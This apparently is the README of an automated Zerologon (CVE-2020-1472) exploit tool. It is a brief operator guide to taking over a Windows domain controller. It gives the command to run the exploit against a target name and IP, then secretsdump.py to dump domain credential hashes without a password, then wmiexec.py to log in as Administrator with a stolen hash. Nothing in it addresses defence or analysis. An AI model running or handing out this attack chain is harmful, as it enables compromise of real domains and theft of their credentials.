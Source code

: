 # zerologon automated 
run this script as a root user 

sudo su 

After installation is completed then run the python script as following 

python3 cve-2020-1472-exploit.py -n computername -t target ip

  secretsdump.py -no-pass -just-dc domain/computername\$@targetip

  wmiexec.py -hashes <hashdump of administrator> <domain>/Administrator@<targetip>


